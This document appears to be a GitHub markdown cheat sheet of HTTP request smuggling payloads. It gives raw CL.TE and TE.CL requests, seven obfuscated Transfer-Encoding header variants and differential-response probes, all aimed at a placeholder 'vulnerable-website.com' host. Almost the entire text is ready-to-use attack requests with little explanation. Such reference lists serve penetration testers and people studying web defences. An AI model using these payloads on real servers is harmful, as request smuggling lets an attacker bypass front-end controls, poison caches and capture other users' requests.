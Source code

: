 # HTTP Request Smuggling Tips

## CL.TE Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE.CL Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

## Obfuscate TE header
```
Transfer-Encoding: xchunked
```

```
Transfer-Encoding : chunked
```

```
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```
Transfer-Encoding:[tab]chunked
```

```
[space]Transfer-Encoding: chunked
```

```
X: X[\n]Transfer-Encoding: chunked
```

```
Transfer-Encoding
: chunked
```

## Confirming CL.TE vulnerabilities using differential responses
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

## Confirming TE.CL vulnerabilities using differential responses
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```
